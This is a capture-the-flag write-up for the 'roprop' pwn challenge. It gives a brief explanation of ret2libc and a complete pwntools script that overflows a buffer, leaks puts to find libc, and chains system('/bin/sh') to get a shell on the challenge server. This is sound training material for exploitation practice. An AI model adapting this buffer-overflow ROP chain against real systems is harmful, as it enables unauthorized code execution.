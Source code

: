 # Pwn Challenge 

## Name: roprop  

### Description: 

`This is from the back Solar Designer times where you require rope to climb and get anything you want.
`
#### nc pwn.darkarmy.xyz 5002
**Author:gr4n173**


**Solution:**

Main target of this challenge was to get familiar with `ret2libc` technique so you can exploit using ret2libc technique i.e. you can use `rops` to pwn the challenge. If you want more detail about it you can see in my blog I have written a simple explanation about ret2libc.   
  
  You can find it here [Ret2libc](https://gr4n173.github.io/2020/07/11/ret2libc.html).  

**Exploit:**

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='amd64')
exe = './roprop'

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '34.126.91.169'
port = int(args.PORT or 6002)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

elf = ELF('./roprop')
lib = ELF('./libc6_2.27-3ubuntu1.2_amd64.so')

#offset = 80
pop_rdi = 0x0000000000400963 
#puts_plt = elf.plt['puts']
#puts_glt = elf.got['puts']
ret = 0x0000000000400646

#First rop to be send
payload = 'A'*88
payload += p64(pop_rdi)
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(elf.symbols['main'])

io.sendline(payload)

log.info('Puts plt   : ' + hex(elf.plt['puts']))
log.info('Puts got   : ' + hex(elf.got['puts']))

#io.recvline()
io.recvline()
io.recvline()
leak= u64(io.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
log.info('Puts Leak  : ' + hex(leak))

libc_base = leak - 0x080a30
system = libc_base +0x04f4e0 
binsh  = libc_base + 0x1b40fa

log.info('Libc Base  : ' + hex(libc_base))
log.info('System     : ' + hex(system))
log.info('Binsh      : ' + hex(binsh))

#Second rop to be send
payload = 'A'* 88
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)

io.sendline(payload)
io.interactive()
```



